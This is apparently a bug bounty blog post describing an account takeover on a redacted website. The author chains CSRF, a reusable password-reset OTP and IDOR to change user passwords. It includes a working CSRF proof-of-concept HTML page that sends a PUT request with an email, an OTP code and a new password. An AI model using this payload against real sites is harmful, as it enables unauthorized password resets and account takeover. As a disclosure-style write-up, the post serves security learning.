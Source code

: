 ```yaml
---
title: "Exploiting CSRF and OTP Reuse: How Weak Token Management Enables Password Reset Attacks, Leading…"
datePublished: Thu Nov 28 2024 18:38:31 GMT+0000 (Coordinated Universal Time)
cuid: cm8slnmcl001k09jo46ic40px
slug: exploiting-csrf-and-otp-reuse-how-weak-token-management-enables-password-reset-attacks-leading-to-c2f6b914f398
tags: [hunt,CSRF]
publish: true
---
```


Hello guy! I’m iPsalmy. It’s been a while I wrote anything here.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1743155290085/d323921f-4d60-4437-8c23-af12794cbd58.gif)

Anyway, with no waste of time let’s talk about how I used a simple CSRF attack to exploit a weak token management which led to me taking over users account.

I tend to test on password password reset mechanisms and IDOR more these days. So, while checking out the functionality on this website, let’s call it (redacted.com). I intercepted the forgot password request in Caido (web proxy), forwarded the request inorder to receive the token(OTP) in my mail.

With the token, I created a CSRF POC for this request.

<!DOCTYPE html>  
<html>  
<head>  
    <title>CSRF PoC for Password Reset</title>  
</head>  
<body>  
    <h1>CSRF PoC for Password Reset</h1>  
  
    <script>  
        // This JavaScript will create and send the PUT request with the JSON payload  
        fetch("https://redacted.com/v1/user/set-new-password/", {  
            method: "PUT",  
            headers: {  
                "Content-Type": "application/json"  
            },  
            body: JSON.stringify({  
                "email": "ipsalmy+40@gmail.com",  
                "otp\_code": "954195",  
                "password": "Weakpass2"  
            })  
        });  
    </script>  
</body>  
</html>  
  

Entered a password of my choice in the CSRF POC, saved this POC as .html file and launched it on my browser.

I went back to the login page of redacted.com and I tried to login with my previous password but couldn’t. Meaning…..

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1743155291808/d0f22ae4-e47c-4da4-a34d-493c0a3a4d1e.gif)

The CSRF worked! I got logged out of my account.

Now, to the most fun part. The token sent to to user’s mail wasn’t expiring even after use, meaning I was able to change users password thousands of times with the same token. Since it was provided by the website’s reset password API endpoint, it remained valid.

This happened only when used with a CSRF exploitation. If the Token is manually inputted, the API properly validates this token and made it expire after usage.

I was also able to perform this attack on other users I found through IDOR.

Thanks for reading : )

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1743155294068/061e142e-0f91-45ef-a5db-fdd93320282a.gif)